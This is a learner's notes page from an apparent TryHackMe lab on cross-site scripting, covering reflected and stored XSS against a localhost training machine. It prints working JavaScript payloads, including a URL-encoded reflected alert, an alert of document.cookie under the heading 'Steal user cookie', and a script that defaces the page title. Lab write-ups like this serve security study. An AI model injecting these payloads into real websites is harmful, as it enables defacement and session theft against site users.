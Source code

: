 # Cross-site Scripting (XSS)
Note:
- It's a vulnerability that allows attackers execute malicious code (JS, VB, Flash) on the client side.
- Three are types of XSS
	-  Stored XSS
	-  Reflected XSS
	-  DOM-based XSS
- Common XSS in web app uses JavaScript.

## Practical

### Reflected XSS


![4ec6b13ee3f3d1b6dabe6d0a008ab474.png](./_resources/d054aa752ab0433d8f154a61908aa899.png)

Source code:
```
<h6>You searched for: [Your input will be input directly in here]</h6>
```

With unsanitized user input, any malicous script can directly blend into page source code.

```
<h6><script>alert("Hello")</script></h6>
<h6><script>alert(window.location.hostname)</script></h6>
```

URL (THM deployed machine is tunneled to localhost)
```
http://localhost/reflected?keyword=%3Cscript%3Ealert%28%22Hello%22%29%3C%2Fscript%3E
```

![678e3bf00262203002bc52b3c3d2012d.png](./_resources/9e22a060be024612937869e74197f19a.png)

![f70d836f7903e212f6127e172ef89e44.png](./_resources/1d2c6787da8047ff93244cd20b5c9d20.png)

### Stored XSS

My payload

```
<!-- html comment test -->
```

![b16e06d04100faae6928c3c44e66b273.png](./_resources/93cf41204be64490bb8ac760b7c7aa87.png)

Steal user cookie

```
<script>alert(document.cookie)</script>
```

![cc7d15c25cca77de7a812c3f99d0ce81.png](./_resources/d098faf08f73456a870ec842de77d5ac.png)

With stored xss, we can change the entire page element(even deface)

For example changing "XSS Playground" to "Defaced"

First, inspect the element we want to change.

![c014e6a6142f6bd3a6f8020d2f7432b9.png](./_resources/dae50bbc9b57404883ca033b1acebdf3.png)

We could use console for testing

![db65ce2853b54803625a0a394e5610e5.png](./_resources/6f6f89f3e53d4b3ca74d3d7f501d28d8.png)

Now we could add something like this to the comment section and post it.
```
<script>document.getElementById("thm-title").innerText = "I am a hacker"</script>
```

![c2bd7aac5d51a945f2cd1c7bf7ed6125.png](./_resources/0a923d67eb6b4615867e0c48363665b8.png)


## Questions

![702bb3f532d40f0b83c7c849d12e7803.png](./_resources/1d2a0dab34c441fbae66916facc4b1ea.png)